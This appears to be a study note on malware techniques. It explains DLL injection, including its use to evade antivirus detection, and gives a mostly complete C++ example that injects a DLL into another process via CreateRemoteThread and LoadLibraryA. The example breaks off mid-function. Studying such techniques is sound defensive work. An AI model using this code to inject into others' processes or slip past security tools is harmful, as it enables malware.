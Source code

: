 # Index 
- [[3. Common Malware Techniques]]
	- [[3.1 Process Injection Techniques]]
	- [[3.2 Persistence Mechanisms]]
	- [[3.3 Hooking Windows APIs]]
	- [[3.4 Packing & Encryption]]

# DLL Injection

#### How it Works
DLL injection involves loading a Dynamic Link Library (DLL) into the memory space of another process. This is done to force a target process to execute code inside the injected DLL. 

This method is popular because DLLs are legitimate Windows objects, and executing DLL code within the context of a trusted process makes it harder for AV solutions to detect the malicious behavior.

#### Basic Example of DLL Injection
Here’s a basic implementation of DLL injection using the `CreateRemoteThread` and `LoadLibrary` functions in C++.

```cpp
#include <windows.h>
#include <iostream>

int InjectDLL(DWORD processId, const char* dllPath) {
    // Step 1: Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    if (!hProcess) {
        std::cerr << "Failed to open target process." << std::endl;
        return -1;
    }

    // Step 2: Allocate memory in the target process for the DLL path
    LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1, MEM_COMMIT, PAGE_READWRITE);
    if (!pRemoteMemory) {
        std::cerr << "Failed to allocate memory in target process." << std::endl;
        CloseHandle(hProcess);
        return -1;
    }

    // Step 3: Write the DLL path into the allocated memory in the target process
    WriteProcessMemory(hProcess, pRemoteMemory, dllPath, strlen(dllPath) + 1, NULL);

    // Step 4: Get the address of LoadLibraryA from kernel32.dll
    HMODULE hKernel32 = GetModuleHandleA("kernel32.dll");
    LPVOID pLoadLibrary = GetProcAddress(hKernel32, "LoadLibraryA");

    // Step 5: Create a remote thread in the target process that calls LoadLibraryA with the DLL path
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibrary, pRemoteMemory, 0, NULL);
    if (!hThread) {
        std::cerr << "Failed to create remote thread in target process." << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return -1;
    }

    // Wait for the remote thread to complete
    WaitForSingleObject(hThread, INFINITE);

```